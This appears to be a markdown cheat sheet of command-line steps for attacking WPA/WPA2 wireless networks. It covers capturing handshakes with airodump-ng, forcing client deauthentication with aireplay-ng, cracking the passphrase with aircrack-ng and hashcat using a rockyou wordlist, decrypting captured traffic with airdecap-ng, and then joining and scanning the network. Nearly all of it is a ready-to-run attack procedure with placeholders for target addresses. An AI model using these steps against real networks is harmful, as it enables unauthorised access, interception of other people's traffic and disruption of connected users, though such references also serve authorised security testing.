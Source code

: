 ## WPA/WPA2 PSK Attacks

### Handshake Capture

```bash
# Monitor target network
airodump-ng wlan0mon -w ~/wifi/handshake -c [CHANNEL] --bssid [AP_MAC] --wps

# Force deauthentication (in parallel)
aireplay-ng -0 10 -a [AP_MAC] wlan0mon
```

### Password Cracking

```bash
# Crack with aircrack-ng
aircrack-ng ~/wifi/handshake-01.cap -w ~/rockyou-top100000.txt

# Alternative: Convert to hashcat format and use GPU acceleration
aircrack-ng handshake-01.cap -j hashcat-format
hashcat -a 0 -m 2500 hashcat-format.hccap ~/rockyou-top100000.txt --force
```

### Traffic Decryption Post-Crack

```bash
# Decrypt captured traffic
airdecap-ng -e [NETWORK_NAME] -p [PASSWORD] ~/wifi/handshake-01.cap

# Analyze decrypted traffic
wireshark ~/wifi/handshake-01-dec.cap
```

### Network Connection and Analysis

```bash
cat > psk.conf << EOF
network={
    ssid="[NETWORK_NAME]"
    psk="[PASSWORD]"
    scan_ssid=1
    key_mgmt=WPA-PSK
    proto=WPA2
}
EOF

wpa_supplicant -Dnl80211 -iwlan3 -c psk.conf &
dhclient wlan3 -v

# Test client isolation
arp-scan -I wlan3 -l
curl [TARGET_IP]
```
